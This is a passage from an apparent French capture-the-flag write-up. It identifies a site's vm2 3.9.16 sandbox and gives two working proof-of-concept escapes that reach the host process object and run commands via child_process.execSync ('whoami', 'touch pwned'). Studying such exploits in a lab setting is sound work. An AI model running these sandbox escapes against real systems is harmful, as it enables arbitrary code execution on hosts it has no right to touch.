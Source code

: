 Cependant, sur la page **/about** il est précise que l'éditeur de code fonctionne grâce à la **vm2 library 3.9.16** accompagné d'un lien github. En tapant sur internet, on trouve tout de suite une vulnérabilité qui permet d'important quand meme **child_process** et donc de pouvoir executer du code arbitraire.

Voici un PoC(Proof of concept):
```bash
const {VM} = require("vm2");
const vm = new VM();

const code = `
aVM2_INTERNAL_TMPNAME = {};
function stack() {
    new Error().stack;
    stack();
}
try {
    stack();
} catch (a$tmpname) {
    a$tmpname.constructor.constructor('return process')().mainModule.require('child_process').execSync('whoami');
}
`

console.log(vm.run(code));
```

PoC 2:
```bash
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```
